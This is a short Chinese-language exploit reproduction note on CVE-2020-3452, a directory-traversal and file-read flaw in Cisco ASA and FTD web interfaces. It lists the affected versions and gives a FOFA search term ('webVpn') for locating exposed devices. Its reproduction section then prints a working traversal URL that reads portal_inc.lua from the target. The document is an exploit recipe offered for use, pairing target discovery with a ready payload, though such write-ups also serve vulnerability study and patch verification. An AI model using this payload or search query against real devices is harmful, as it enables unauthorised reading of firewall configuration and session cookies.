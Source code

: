 # （CVE-2020-3452）CISCO ASA远程任意文件读取



## 简介

Cisco Adaptive Security Appliance (ASA)
防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的web管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞。攻击者只能查看web目录下的文件，无法通过该漏洞访问web目录之外的文件。该漏洞可以查看webVpn设备的配置信息，cookies等。

## 影响版本

```
Cisco ASA 设备影响版本: 
<9.6.1 
9.6 < 9.6.4.42 
9.71 
9.8 < 9.8.4.20 
9.9 < 9.9.2.74 
9.10 < 9.10.1.42 
9.12 < 9.12.3.12 
9.13 < 9.13.1.10 
9.14 < 9.14.1.10 
Cisco FTD设备影响版本： 
6.2.2 
6.2.3 < 6.2.3.16 
6.3.0 < Migrate to 6.4.0.9 + Hot Fix or to 6.6.0.1 
6.4.0 < 6.4.0.9 + Hot Fix 
6.5.0 < Migrate to 6.6.0.1 or 6.5.0.4 + Hot Fix (August 2020) 
6.6.0 < 6.6.0.1 
```

FOFA检索规则
FOFA: “webVpn”

![img](.resource/%EF%BC%88CVE-2020-3452%EF%BC%89CISCO%20ASA%E8%BF%9C%E7%A8%8B%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/2020073010454818.png)

## 漏洞复现

```
https://<domain>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

![img](.resource/%EF%BC%88CVE-2020-3452%EF%BC%89CISCO%20ASA%E8%BF%9C%E7%A8%8B%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/20200730104618560.png)